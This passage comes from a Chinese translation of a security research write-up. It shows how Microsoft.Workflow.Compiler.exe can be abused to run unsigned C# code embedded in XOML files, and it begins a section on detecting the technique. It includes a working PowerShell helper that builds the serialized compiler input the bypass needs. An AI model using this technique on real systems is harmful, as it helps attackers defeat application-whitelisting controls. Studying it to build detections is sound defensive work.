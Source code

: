 ```
    # This assembly won't be loaded by default. We need to load
    # it in order to get access to the WorkflowCompilerParameters class.
    Add-Type -AssemblyName 'System.Workflow.ComponentModel'

    # This class contains the properties we need to specify for Microsoft.Workflow.Compiler.exe
    $WFCompilerParams = New-Object -TypeName Workflow.ComponentModel.Compiler.WorkflowCompilerParameters

    # Necessary to get Microsoft.Workflow.Compiler.exe to call Assembly.Load(byte[])
    $WFCompilerParams.GenerateInMemory = $True

    # Full path to Microsoft.Workflow.Compiler.exe that we will load and access a non-public method from
    $WorkflowCompilerPath = [Runtime.InteropServices.RuntimeEnvironment]::GetRuntimeDirectory() + 'Microsoft.Workflow.Compiler.exe'

    # Load the assembly
    $WFCAssembly = [Reflection.Assembly]::LoadFrom($WorkflowCompilerPath)

    # This is the helper method that will serialize the CompilerInput object to disk
    $SerializeInputToWrapper = [Microsoft.Workflow.Compiler.CompilerWrapper].GetMethod('SerializeInputToWrapper', [Reflection.BindingFlags] 'NonPublic, Static')

    $TempFile = $SerializeInputToWrapper.Invoke($null, @([Workflow.ComponentModel.Compiler.WorkflowCompilerParameters] $WFCompilerParams, [String[]] @(,$OutputPath)))

    Move-Item $TempFile $OutputPath -PassThru
`}`
```

实际上我们只需要改变序列化`CompilerInput`对象中XOML文件的路径/文件名即可。

我们要做的最后一件事情就是澄清如何将C#代码嵌入XOML文件中，首先我们得知道什么是XOML文件。幸运的是，我发现有篇文章中提到可以将代码嵌入XOML文件中。经过多次修改文件后，我终于能够让`Microsoft.Workflow.Compiler.exe`来调用我们的“恶意”构造函数。

这种技术的发现过程就这么简单。我在Windows 10S上做了测试，发现可以执行未签名的任意代码。目前为止，我依然不知道`Microsoft.Workflow.Compiler.exe`的真正功能是什么，也不知道为什么有人需要使用XOML文件，这并不是我的关注重点。目前关于这个程序的公开资料还是比较少，我猜测该程序主要是在微软内部使用。



## 四、检测及规避策略

为了构造检测这种技术的可靠方法，我们需要识别出使用这种技术所需的最小组件集合。

> `Microsoft.Workflow.Compiler.exe`需要使用两个参数。

虽然这句话有点废话，但重要性不言而喻，因为这也是攻击者能够通过磁盘上文件最终控制`Microsoft.Workflow.Compiler.exe`的原因所在。

由于攻击者会千方百计滥用该程序，因此防御方不应该只以来文件名来构建检测规则。我曾写过一篇[文章](https://posts.specterops.io/what-is-it-that-makes-a-microsoft-executable-a-microsoft-executable-b43ac612195e)，介绍如何构建针对可能被滥用的微软应用的可靠检测技术。幸运的是，使用`Microsoft.Workflow.Compiler.exe`本身就不是一种常见行为。

经过测试，我发现即使将`Microsoft.Workflow.Compiler.exe`拷贝到另一个目录并重命名，该程序也能正常执行。

> `Microsoft.Workflow.Compiler.exe`会调用assembly的编译方法。
